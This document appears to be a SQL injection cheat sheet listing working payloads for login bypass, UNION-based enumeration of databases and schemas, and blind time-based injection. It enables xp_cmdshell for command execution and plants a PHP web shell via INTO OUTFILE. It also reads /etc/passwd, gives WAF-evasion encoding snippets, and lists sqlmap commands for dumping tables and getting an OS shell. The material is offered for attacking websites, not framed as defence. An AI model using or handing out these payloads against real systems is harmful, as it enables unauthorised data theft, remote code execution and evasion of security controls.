 # SQL

## payloads

Tautology : To login bypass

```
' OR 1=1 -- //
```

Tautology : To get Version using Tautology

```
' or 1=1 in (select @@version) -- //
```

Order By : To find number of columns in the table

```
' ORDER BY 1-- //
```

Union : Using Order By, Enumerating the current database name, user, and MySQL version.
(adjust the columns according to the table. starting null and ending database())

```
' UNION SELECT null, null, database(), user(), @@version -- //
```

Union : retrieve the columns table from the information_schema

```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```

Blind SQL:

```
' AND IF (1=1, sleep(3),'false') -- //
```

Code Execution : xp_cmdshell in Microsoft SQL need to be enable to work this.

```
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

EXECUTE xp_cmdshell 'whoami'; //to run commands
```

Code Execution: Uploading an RCE to an Writable folder. (/var/www/html/). Adjust Code Accordingly.

```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

Command to execute RCE.
`http://<IP>/webshell.php?cmd=<command>`

### Reading files with postgres SQL

```
create table tmp(data text); copy tmp from '/etc/passwd'; select * from tmp;
```

```
select pg_read("/etc/passwd");
```


### Reading files with MySQL

```
select @@GLOBAL.secure_file_priv;
```

```
select * from users INTO OUTFILE 'path_we_got_from_above_query/read.txt';
```

```
select LOAD_FILE('file_path');
```

---

### RCE via MSSQL

```
'EXECUTE sp_configure 'show advanced options', 1;--
'RECONFIGURE;--
'EXECUTE sp_configure 'xp_cmdshell', 1;--
'RECONFIGURE;--
```

```
' EXECUTE xp_cmdshell 'command';--
```

---
## WAF Bypass

```
⚪To bypass a web application firewall (WAF) in SQL 

1. Exploit SQL Injection: Identify websites that may be vulnerable to SQL injection. SQLMap is a powerful tool that can automate the process of exploiting SQL injection vulnerabilities. Install SQLMap and provide it with the website's URL and parameters to carry out the attack.

2. Evade WAF Detection: WAFs are designed to detect and block suspicious SQL injection attempts. To evade detection, you can employ various techniques such as:

   - Obfuscation: Modify the payload by encoding or encrypting it to bypass signature-based detection.

   - Time-based Techniques: Construct queries that exploit time delays to evade pattern matching and signature-based detection.

   - Use Hex Encoding: Encode the payloads in hexadecimal format to bypass payload filters.

⚫Here's an Crafted payload in python for an Example:
     - Base64 encoding:
payload_encoded = base64.b64encode(payload.encode('utf-8'))
     - URL encoding:
payload_encoded = urllib.parse.quote(payload)

   - Fragmentation: Split the payload into smaller fragments to avoid WAF detection. For instance:
     -
payload_fragmented = payload[:10] + "'" + payload[10:]

   - Character substitution: Replace characters in the payload with alternatives that may bypass the WAF. For example:
     -
payload_substituted = payload.replace("SELECT", "S*ELECT")


⚪ Uploaded By - @MADARA888UCHIHAA 🍀
```

## SQLMap

```
An advanced Guide for SQL Injection (SQLi) using SQLMap👩‍💻:

1. Enumerate Database Information:
   - Identify the number of databases on the target: sqlmap -u <URL> --dbs
   - List all database names: sqlmap -u <URL> --dbs --batch
   - Enumerate tables in a specific database: sqlmap -u <URL> -D <database_name> --tables

2. Extract Table Data:
   - Dump all data in a specific table: sqlmap -u <URL> -D <database_name> -T <table_name> --dump

3. Exploiting SQLi Vulnerabilities:
   - Test for SQLi vulnerability: sqlmap -u <URL> --level 5 --risk 3
   - Specify injection point manually: sqlmap -u "<URL>?parameter=value" --sql-shell
   - Use custom headers: sqlmap -u <URL> --headers="User-Agent: CustomAgent"

4. OS Command Execution:
   - Execute operating system commands: sqlmap -u <URL> --os-shell

5. Brute-Force Techniques:
   - Brute-force table names: sqlmap -u <URL> -D <database_name> --tables --technique T
   - Brute-force column names: sqlmap -u <URL> -D <database_name> -T <table_name> --columns --technique T

6. Time-Based Exploitation:
   - Perform a time-based blind SQLi attack: sqlmap -u <URL> --time-sec 10 --technique T

7. Other Useful Techniques:
   - Retrieve the current user: sqlmap -u <URL> --current-user
   - Retrieve the current database: sqlmap -u <URL> --current-db
   - Identify database management system (DBMS): sqlmap -u <URL> --dbms

Uploaded By - @MADARA888UCHIHAA ⭐
```